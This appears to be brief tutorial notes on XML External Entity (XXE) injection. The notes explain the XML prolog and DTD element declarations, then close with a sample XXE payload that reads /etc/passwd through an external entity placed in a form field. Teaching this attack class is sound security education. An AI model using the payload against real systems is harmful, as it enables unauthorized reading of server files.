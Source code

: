 # XXE
XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.

Every XML document mostly starts with what is known as XML Prolog.  
  
`<?xml version="1.0" encoding="UTF-8"?>`

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

`<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`

So now let's understand how that DTD validates the XML. Here's what all those terms used in `note.dtd` mean

*   !DOCTYPE note -  Defines a root element of the document named **note**
*   !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
*   !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
*   !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
*   !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
*   !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

    **NOTE**: #PCDATA means parseable character data.

`<?xml version="1.0" ?>`  
`<!DOCTYPE foo [ <!ELEMENT foo ANY >`  
`<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`

`<root><name>`  
`aa`  
`</name><tel>aa</tel><email>&xxe;</email><password>aa</password></root>`